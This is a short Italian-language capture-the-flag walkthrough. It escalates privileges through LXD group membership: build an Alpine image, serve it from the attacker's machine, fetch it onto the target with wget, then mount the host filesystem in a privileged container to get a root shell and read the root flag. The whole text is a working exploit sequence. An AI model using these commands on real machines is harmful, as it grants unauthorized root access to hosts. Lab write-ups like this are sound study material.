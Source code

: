 1) Nel computer mi clono questa directory: 
  git clone  https://github.com/saghul/lxd-alpine-builder.git

2) Entro nella cartella lxd-alpine-builder:
  cd lxd-alpine-builder

3) Eseguo l'eseguibile "build-alpine":
 sudo ./build-alpine

4) Poi nella stessa directory avvio un webserver in python:
   python3 -m http.server 8000

----> Nella Macchina Target(Entro prima nella cartella tmp: cd /tmp):

5) Mi scarico il file "alpine-v3.13-x86_64-20210218_0139.tar.gz":
  wget http://$LOCALIP:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz

6) Eseguo il file appena scaricato:
  lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz   --alias myimage

7) Eseguo i seguenti comandi per far spawnare la shell di root:
  - lxc init myimage ignite -c security.privileged=true
  -->OUTPUT: Creating ignite
  - lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
  -->OUTPUT:Device mydevice added to ignite
  - lxc start ignite
  - lxc exec ignite /bin/sh

8) Ora che sono root, navigando nelle directory scopro che nella directory /mnt/root/root ci sta la root flag:
  cat /mnt/root/root/root.txt


